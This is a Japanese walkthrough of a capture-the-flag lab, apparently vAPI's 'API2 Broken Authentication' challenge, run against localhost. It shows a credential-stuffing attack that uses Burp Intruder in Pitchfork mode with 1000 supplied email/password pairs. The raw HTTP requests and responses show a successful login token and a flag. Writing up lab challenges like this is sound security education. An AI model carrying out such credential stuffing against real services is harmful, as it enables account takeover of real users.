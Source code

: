 # API2 Broken Authentication
認証に必要な情報がないが、どうやってログインする？

この問題はResourceフォルダに入っている「API2_CredentialStuffing.csv」を使う。  
csvにはメールと謎の文字列が1000行入っている。
```csv
brown.grimes@hotmail.com,w_5yhfEN
reuben.heaney@hotmail.com,8JhcB_mH
dcronin@robel.com,V$qe{8+3
hcollier@veum.com,vVsU7/yN
vemard@gmail.com,gRfJ3$U7
```

csvの1行目をemailとpasswordに入れてログイン試行してみるが入れない。
```http
POST /vapi/api2/user/login HTTP/1.1
Content-Type: application/json
User-Agent: PostmanRuntime/7.29.0
Accept: */*
Postman-Token: c92a283e-4a01-4caa-8f60-ce3b38d203f1
Host: localhost
Accept-Encoding: gzip, deflate
Connection: close
Content-Length: 72

{
    "email":"brown.grimes@hotmail.com",
    "password":"w_5yhfEN"
}
```

```http
HTTP/1.1 401 Unauthorized
Host: localhost
Date: Sat, 05 Mar 2022 13:11:20 GMT
Connection: close
X-Powered-By: PHP/7.4.7
Cache-Control: no-cache, private
Date: Sat, 05 Mar 2022 13:11:20 GMT
Content-Type: application/json

{"success":"false","cause":"usernameOrPasswordIncorrect"}
```

### 1000パターンすべて試行してみる。
Intruderに送り、emailとpasswprdが強調された状態で、Attack typeは「Pitchfork」とする。
![](./img/20220305221710.png)

Payloadsタブに移動。  
Payload set「1」にメール1000件コピーしたものを「Paste」。  
Payload set「2」に謎の文字列1000件コピーしたものを「Paste」。  
![](./img/20220305222132.png)

「Start attack」を押して試行開始。  
無償版のBurp Suite Community Editionだと日が暮れるぐらい時間かかる。

以下の通り、success:trueが返ってくる組み合わせがある。  
```
POST /vapi/api2/user/login HTTP/1.1
Content-Type: application/json
User-Agent: PostmanRuntime/7.29.0
Accept: */*
Postman-Token: 627a5607-4b93-4979-8d08-b10fd8064a2b
Host: localhost
Accept-Encoding: gzip, deflate
Connection: close
Content-Length: 67

{
    "email":"savanna48@ortiz.com",
    "password":"zTyBwV/9"
}
```
```
HTTP/1.1 200 OK
Host: localhost
Date: Sat, 05 Mar 2022 13:28:02 GMT
Connection: close
X-Powered-By: PHP/7.4.7
Cache-Control: no-cache, private
Date: Sat, 05 Mar 2022 13:28:02 GMT
Content-Type: application/json

{"success":"true","token":"Fp0r1mty_gxK9DRZ5IUw3sX2enQ6rau68M6YGyoqR3XoBG13wtSbvmdaK5CB"}
```

得られたtokenを引き継いでGet Details APIを実行するとFlagが返ってくる。  
```http
GET /vapi/api2/user/details HTTP/1.1
Authorization-Token: Fp0r1mty_gxK9DRZ5IUw3sX2enQ6rau68M6YGyoqR3XoBG13wtSbvmdaK5CB
User-Agent: PostmanRuntime/7.29.0
Accept: */*
Postman-Token: 836f1cd2-79dc-4463-847c-2710ffd87345
Host: localhost
Accept-Encoding: gzip, deflate
Connection: close

```

```http
HTTP/1.1 200 OK
Host: localhost
Date: Sat, 05 Mar 2022 13:30:06 GMT
Connection: close
X-Powered-By: PHP/7.4.7
Cache-Control: no-cache, private
Date: Sat, 05 Mar 2022 13:30:06 GMT
Content-Type: application/json

[{"id":1,"email":"savanna48@ortiz.com","name":"Evelyn","token":"Fp0r1mty_gxK9DRZ5IUw3sX2enQ6rau68M6YGyoqR3XoBG13wtSbvmdaK5CB","address":"10th Downing","city":"Mesport","country":"USA"},{"id":2,"email":"hauck.aletha@yahoo.com","name":"Tara","token":"1Nkoz6quzJiis1SEonJeSxwkXTzSzcULofbL9O7KPz6_sKGkUcQDzoNfI5aA","address":"flag{api2_6bf2beda61e2a1ab2d0a}","city":"Delhi","country":"India"},{"id":3,"email":"harber.leif@beatty.info","name":"Joyce","token":"sLqs17RjmdlWoBP2ONdAPP8WtIVNwlyz_qzLwhmJGboWD_asFICYggcE3bPi","address":"San Jose","city":"California","country":"USA"}]
```
